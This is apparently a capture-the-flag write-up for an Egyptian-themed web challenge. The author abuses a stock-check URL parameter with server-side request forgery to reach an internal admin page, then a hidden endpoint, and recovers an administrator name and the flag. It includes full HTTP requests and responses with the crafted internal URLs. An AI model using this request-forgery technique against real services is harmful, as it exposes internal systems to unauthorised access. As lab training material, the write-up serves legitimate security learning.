



# Intro


# Information gathering
First entering the site the user is presented with four containers / parts.  
The top part:  


Entering a name into the input redirects the user to the ```/verify``` telling that the wrong name was entered.  
Input: ```Pharaoh Amenhotep```  


The middle parts:  


Using the hieroglyph translator to translate the hieroglyphs on the container above:  
```
....herein lies the localtomb of the great administrator pharaoh... only those who know the sacred pathways may enter... speak the true name to reveal what lies beyond these walls...
```  


The bottom part:  



A function that fetches the stock of a specific treasure type by clicking the button "Check Stock".  



Checking the request a url-encoded URL can be seen in the body of the request:  
```http
POST /check-stock HTTP/1.1
Host: 64.225.103.251:5001
Cookie: session=.eJwVzFEKAiEQANC7zLcGsRThBTpA_ctsjjml46LjQkV3b_t_vA9gKCxesBA4uJCyvaahpXaymsieG6GCAVzYh1qQZWMr5kwvW6N9stz7TuhPWFgZM78pgNM2yMBSm3oZZaYG7nia9gY63RqpX1DTNs2xc3wcCk_w_QGmWTEU.aBOYJg.UWSv7_lVin9fLRjC8WdgPIZGJ7s
Content-Length: 69
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-GB,en;q=0.9
Sec-Ch-Ua: "Chromium";v="135", "Not-A.Brand";v="8"
Content-Type: application/x-www-form-urlencoded
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: */*
Origin: https://64.225.103.251:5001
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://64.225.103.251:5001/
Accept-Encoding: gzip, deflate, br
Priority: u=1, i
Connection: keep-alive

sarcophagiAPI=http%3A%2F%2Fvalley-of-kings.net%2Fcontents%2Fartifacts
```

Decoded URL
```
http://valley-of-kings.net/contents/artifacts
```


# Attack
From the hint a new URL can be crafted:  
```http://localtomb/pharaoh```

Changing the body parameter ```sarcophagiAPI``` to the newly crafted URL, a admin site is returned to the client that should only be accessible locally.   
Request:  
```http
POST /check-stock HTTP/1.1
Host: 64.225.103.251:5001
Cookie: session=.eJwVzFEKAiEQANC7zLcGsRThBTpA_ctsjjml46LjQkV3b_t_vA9gKCxesBA4uJCyvaahpXaymsieG6GCAVzYh1qQZWMr5kwvW6N9stz7TuhPWFgZM78pgNM2yMBSm3oZZaYG7nia9gY63RqpX1DTNs2xc3wcCk_w_QGmWTEU.aBOYJg.UWSv7_lVin9fLRjC8WdgPIZGJ7s
Content-Length: 44
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-GB,en;q=0.9
Sec-Ch-Ua: "Chromium";v="135", "Not-A.Brand";v="8"
Content-Type: application/x-www-form-urlencoded
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: */*
Origin: https://64.225.103.251:5001
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://64.225.103.251:5001/
Accept-Encoding: gzip, deflate, br
Priority: u=1, i
Connection: keep-alive

sarcophagiAPI=http%3A%2F%2Flocaltomb/pharaoh
```

Response:
```http
HTTP/1.1 200 OK
Server: nginx/1.27.4
Date: Thu, 01 May 2025 16:14:14 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 3063
Connection: keep-alive
Vary: Cookie

<!-- Include the Google Font for hieroglyphs -->
<link href="https://fonts.googleapis.com/css2?family=Noto+Sans+Egyptian+Hieroglyphs&display=swap" rel="stylesheet">

<style>
    /* Inline styles for hieroglyphs with 18px font size */
    .hieroglyphs {
        font-family: 'Noto Sans Egyptian Hieroglyphs', 'Segoe UI Historic', 'Arial Unicode MS', serif;
        font-size: 18px !important;
        line-height: 1.5;
    }
</style>

<div class="pharaoh-interface">
    <h3  style="font-size: 20px;">Pharaoh's Administrative Chamber</h3>
    <p class="admin-warning" style="color: #c4512b; font-weight: bold;"  style="font-size: 20px;">Warning: You have accessed a restricted area!</p>
    
    <div style="margin: 20px 0; padding: 15px; border: 1px solid #614726; background-color: #fdf6e3;">
        <h4  style="font-size: 20px;">Pharaoh's Administrative Functions</h4>
        
        <div class="admin-buttons" style="display: flex; flex-wrap: wrap; gap: 10px; margin-top: 15px;">
            <form action="/admin-function" method="post">
                <input type="hidden" name="function" value="treasury">
                <button type="submit" style="background-color: #8b4513; color: #f5e1a3; border: none; padding: 8px 12px; border-radius: 3px; cursor: pointer;" class="hieroglyphs">𓃙𓌮𓆣𓀠𓋪𓇁𓍄𓆣𓏏𓉡𓍓𓍄𓍵𓋪𓇌𓊿𓌩𓎛𓆣𓌩𓎛𓉡</button>
            </form>
            
            <form action="/admin-function" method="post">
                <input type="hidden" name="function" value="servants">
                <button type="submit" style="background-color: #8b4513; color: #f5e1a3; border: none; padding: 8px 12px; border-radius: 3px; cursor: pointer;" class="hieroglyphs">𓆡𓏏𓌩𓏏𓆑𓆣𓋪𓄁𓆣𓍄𓋝𓏏𓌩𓎛𓉡</button>
            </form>
            
            <form action="/admin-function" method="post">
                <input type="hidden" name="function" value="tribute">
                <button type="submit" style="background-color: #8b4513; color: #f5e1a3; border: none; padding: 8px 12px; border-radius: 3px; cursor: pointer;" class="hieroglyphs">𓄀𓆣𓋏𓊿𓍄𓍷𓋪𓇁𓍄𓌮𓈬𓍓𓎛𓆣𓉡</button>
            </form>
            
            <form action="/pharaoh/bfsifj5mi3/secrettomb" method="get">
                <button type="submit" style="background-color: #8b4513; color: #f5e1a3; border: none; padding: 8px 12px; border-radius: 3px; cursor: pointer; font-weight: bold;" class="hieroglyphs">𓏬𓋏𓋏𓆣𓉡𓉡𓋪𓄁𓆣𓋏𓍄𓆣𓎛𓋪𓇁𓊿𓋫𓈬</button>
            </form>
            
            <form action="/admin-function" method="post">
                <input type="hidden" name="function" value="monuments">
                <button type="submit" style="background-color: #8b4513; color: #f5e1a3; border: none; padding: 8px 12px; border-radius: 3px; cursor: pointer;" class="hieroglyphs">𓃦𓍖𓏏𓌩𓋪𓆡𓊿𓌩𓍓𓋫𓆣𓌩𓎛𓉡</button>
            </form>
        </div>
    </div>
    
</div>
```


The response contains more hieroglyphs, using the translator on the site:
In order top-bottom:
𓃙𓌮𓆣𓀠𓋪𓇁𓍄𓆣𓏏𓉡𓍓𓍄𓍵𓋪𓇌𓊿𓌩𓎛𓆣𓌩𓎛𓉡 = View Treasury Contents
𓆡𓏏𓌩𓏏𓆑𓆣𓋪𓄁𓆣𓍄𓋝𓏏𓌩𓎛𓉡 = Manage Servants
𓄀𓆣𓋏𓊿𓍄𓍷𓋪𓇁𓍄𓌮𓈬𓍓𓎛𓆣𓉡 = Record Tributes
𓃦𓍖𓏏𓌩𓋪𓆡𓊿𓌩𓍓𓋫𓆣𓌩𓎛𓉡 = Plan Monuments

The fourth button form the top is the only one that has the ```method``` set to ```GET```
```html
<form action="/pharaoh/bfsifj5mi3/secrettomb" method="get">
```


Entering this endpoint to the ```POST``` request a new site is returned containing the "Sacred name":  
Request:  
```http
POST /check-stock HTTP/1.1
Host: 64.225.103.251:5001
Cookie: session=.eJwVzFEKAiEQANC7zLcGsRThBTpA_ctsjjml46LjQkV3b_t_vA9gKCxesBA4uJCyvaahpXaymsieG6GCAVzYh1qQZWMr5kwvW6N9stz7TuhPWFgZM78pgNM2yMBSm3oZZaYG7nia9gY63RqpX1DTNs2xc3wcCk_w_QGmWTEU.aBOYJg.UWSv7_lVin9fLRjC8WdgPIZGJ7s
Content-Length: 66
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-GB,en;q=0.9
Sec-Ch-Ua: "Chromium";v="135", "Not-A.Brand";v="8"
Content-Type: application/x-www-form-urlencoded
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: */*
Origin: https://64.225.103.251:5001
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://64.225.103.251:5001/
Accept-Encoding: gzip, deflate, br
Priority: u=1, i
Connection: keep-alive

sarcophagiAPI=http%3A%2F%2Flocaltomb/pharaoh/bfsifj5mi3/secrettomb
```

Response:  
```http
HTTP/1.1 200 OK
Server: nginx/1.27.4
Date: Thu, 01 May 2025 16:15:04 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 676
Connection: keep-alive
Vary: Cookie

<div class="secret-tomb" style="font-family: 'IM Fell English SC', serif";>
    <h3>The Secret Tomb</h3>
    <p class="admin-warning" style="color: #c4512b; font-weight: bold;">HIGHLY RESTRICTED AREA - UNAUTHORIZED ACCESS DETECTED</p>
    
    <div style="margin: 20px 0; padding: 20px; border: 2px dashed #8b4513; background-color: #f9e5a1; text-align: center;">
        <h4 style="color: #c4512b;">ADMINISTRATOR INFORMATION</h4>
        <p>Authentication required to enter the inner chamber.</p>
        <p>Administrator name:</p>
        <p id="sacred-name" style="font-size: 24px; font-weight: bold; color: #8b4513; letter-spacing: 2px;">Seti-Thutmose-the-Great</p>
</div>
```

```html
<p id="sacred-name" style="font-size: 24px; font-weight: bold; color: #8b4513; letter-spacing: 2px;">Seti-Thutmose-the-Great</p>
```


```Flag: O24{4nkh_th3_k3y_0f_l1f3_unl0ck5_7h3_s4cr3d_t0mb}```